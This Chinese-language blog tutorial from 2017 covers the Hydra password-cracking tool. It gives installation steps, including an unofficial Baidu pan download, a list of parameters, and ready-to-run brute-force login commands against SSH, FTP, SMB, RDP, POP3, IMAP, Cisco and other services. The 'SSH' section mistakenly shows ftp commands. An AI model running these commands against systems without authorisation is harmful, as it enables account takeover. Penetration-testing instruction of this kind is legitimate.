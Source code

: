 ```yaml
--- 
layout: post
title: "KALI Hydra破解工具的使用"
date: 2017-11-28 9:34:06 
description: "KALI Hydra破解工具的使用"
tag: Tools
---
```


### 介绍

&nbsp;&nbsp;&nbsp;&nbsp;hydra是一种猜测和破解密码的工具，支持多种网络协议，如HTTP、FTP、POP3、SMB等。Hydra依靠提供的用户名和密码，并尝试登陆网络服务器，默认行数为16.一旦登陆成功，将会保存相关的记录。

`说明：使用的情况是远程非本地`

### 安装

`windows:`
链接：http://pan.baidu.com/s/1ge7NdoZ 密码：atob

`Linux:`
 `su apt-get install hydra 
 或者 su yum install –y hydra`

如果你使用的的源码编译安装，也许你需要安装一些可选的模块：
`libssl-dev libssh-dev libidn11-dev libpcre3-dev 
libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev firebird2.1-dev libncp-dev`

### 使用帮助文档

[官方使用帮助文档](https://www.thc.org/thc-hydra/README)

### 基本参数

```C
1.	常用参数：
2.	
3.	-l: 指定登陆名
4.	-L: 指定登陆名的文件
5.	-p: 指定破解的密码
6.	-P：指定破解密码的文件
7.	-e ns: 尝试密码为空和账号是密码的情况
8.	-t: 指定线程
9.	-f: 指定当找到第一个破解出来的密码后停止
10.	-C： 是-P、-L的替代，指定存放用户名和密码的文件，格式是  用户名:密码
11.	-M: 指定破解的主机和端口的文件 ,格式是  主机或者IP:端口  
12.	    或者  不带端口使用默认端口格式  主机或者域名
13.	-v: 显示详细过程
14.	-w: 设置最大超时时间

基本使用方法：
hydra -l  用户名 -P 字典文件 IP 协议
hydra -L 用户名文件 -P 密码文件 IP 协议
```

### 破解SSH

```C
# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
# hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV
```

### 破解FTP

```C
# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
# hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV
```

### 破解CISCO

```C
# hydra -P pass.txt 10.36.16.18 cisco
# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
```

### 破解TEAMSPEAK

```C
# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak
```

### 破解SMB

```C
# hydra -l administrator -P pass.txt 10.36.16.18 smb
```

### 破解POP3

```C
# hydra -l muts -P pass.txt my.pop3.mail pop3
```

### 破解RDP

```C
# hydra ip rdp -l administrator -P pass.txt -V
```

### 破解http-proxy

```C
# hydra -l admin -P pass.txt http-proxy://10.36.16.18
```

### 破解IMAP

```C
# hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
```

### 其他协议的破解

> 请使用hydra –U PROTOCOL 来查看使用的例子,比如想查看http-post-form破解：
hydra –U http-post-hydra

```JAVA
PROTOCOLS(支持的协议类型):
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,
HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY,
HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST,
HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener,
Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin,
Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5,
SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth,
VNC and XMPP.
```


推荐阅读：

- [Tkinter Button控件使用-2](https://ssjt21.github.io/2017/11/Python_TK_Button/)

- [Tkinter Canvas控件使用-3](https://ssjt21.github.io/2017/11/Python_TK_Canvas/)

- [Python PIL Image类使用](http://ssjt21.github.io/2017/11/Python_PIL_Image_Module/)

- [Python调用Hashcat跑主机密码文件](http://ssjt21.github.io/2017/11/Python_Hashcatshell/)



<br>

转载请注明：[随时静听的博客](http://ssjt21.github.io) » [点击阅读原文](https://ssjt21.github.io/2017/11/TOOLS_Hydra/)